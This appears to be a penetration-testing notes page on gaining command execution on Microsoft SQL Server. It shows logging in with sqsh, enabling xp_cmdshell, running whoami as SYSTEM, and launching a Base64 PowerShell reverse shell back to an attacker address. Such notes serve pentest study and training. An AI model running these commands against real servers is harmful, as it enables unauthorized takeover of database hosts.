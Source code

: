# MSSQL

### Getting RCE on MSSQL

{% embed url="https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server" %}

{% embed url="https://rioasmara.com/2020/01/31/mssql-rce-and-reverse-shell-xp_cmdshell" %}

xp\_cmdshell - Can only be executed by 'sa' and any other users with 'sysadmin' privileges

By default, only sysadmin is allowed to use it and in SQL Server 2005 it is disabled by default (it can be enabled again using sp\_configure)

If we have credentials and mssql port is open to external access, we can connect with sqsh.

```
sqsh -S 192.168.1.2 -U {USER} -P {PASS} -D {DATABASENAME(NOT REQUIRED)}
```

```
1> EXEC master..xp_cmdshell 'whoami'
2> go

Msg 15281, Level 16, State 1
Server 'TEST\SQLEXPRESS', Procedure 'master..xp_cmdshell', Line 1
SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell'
because this component is turned off as part of the security configuration for this
server. A system administrator can enable the use of 'xp_cmdshell' by using
sp_configure. For more information about enabling 'xp_cmdshell', search for
'xp_cmdshell' in SQL Server Online.
```

If the output like the above then you need to activate the cmdshell feature with below commands

```
1> EXEC SP_CONFIGURE 'show advanced options',1
2> reconfigure
3> go
Configuration option 'show advanced options' changed from 0 to 1. Run the
RECONFIGURE statement to install.
(return status = 0)

1> EXEC SP_CONFIGURE 'xp_cmdshell',1
2> reconfigure
3> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE
statement to install.
(return status = 0)
```

With the above command we have configured that our SQL Server is able to execute command at the server.

```
1> xp_cmdshell 'whoami'
2> go

        output                                                                      

        ----------------------------------------------------------------------------
------------------------------------------------------------------------------------
------------------------------------------------------------------------------------
------------------------------------------------------------------------------------
------------------------------------------------------------------------------------
------------------------------------------------------------------------------------
----------------

        nt authority\system                                                         

        NULL                                                                        

(2 rows affected, return status = 0)
```

To get reverse shell, we can execute powershell command.

https://www.revshells.com/ - Powershell #3 (Base64) - 192.168.1.1 - 80 - powershell

```
1> EXEC master..xp_cmdshell 'powershell -e JABjAG..........'
2> go
```
